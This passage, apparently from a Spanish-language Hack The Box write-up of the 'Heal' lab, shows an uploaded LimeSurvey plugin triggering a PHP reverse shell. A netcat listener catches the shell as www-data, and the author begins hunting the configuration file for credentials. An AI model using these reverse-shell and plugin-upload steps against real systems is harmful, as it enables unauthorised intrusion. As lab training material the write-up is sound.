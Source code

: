 Confirmaremos la activación del plugin recién subido.

<figure><img src="../../.gitbook/assets/imagen (256).png" alt=""><figcaption></figcaption></figure>

Accederemos a [http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php](http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php) y volviendo a la terminal donde estábamos en escucha, verificamos que logramos acceder al equipo correctamente.

Nos encontramos como usuario `www-data`, el cual normalmente no dispone de ningún privilegio.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 49700
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 22:15:53 up  1:24,  0 users,  load average: 0.09, 0.06, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@heal:/$
```

## Initial Access

### Information Leakage

Revisando los diferentes directorios, nos encontramos en el archivo `index.php` que especifican que el archivo de configuración se encuentra en `application/config/config.php`.

```bash
www-data@heal:~/limesurvey/admin$ ls -l
total 8
-rwxr-x--- 1 www-data www-data   33 Sep 27 10:27 admin.php
-rwxr-x--- 1 www-data www-data 1103 Sep 27 10:27 index.php
www-data@heal:~/limesurvey/admin$ cat index.php 
<?php

/*
* LimeSurvey
* Copyright (C) 2007-2011 The LimeSurvey Project Team / Carsten Schmitz
* All rights reserved.
* License: GNU/GPL License v2 or later, see LICENSE.php
* LimeSurvey is free software. This version may have been modified pursuant
* to the GNU General Public License, and as distributed it includes or
* is derivative of works licensed under the GNU General Public License or
* other free or open source software licenses.
* See COPYRIGHT.php for copyright notices and details.
*/

```
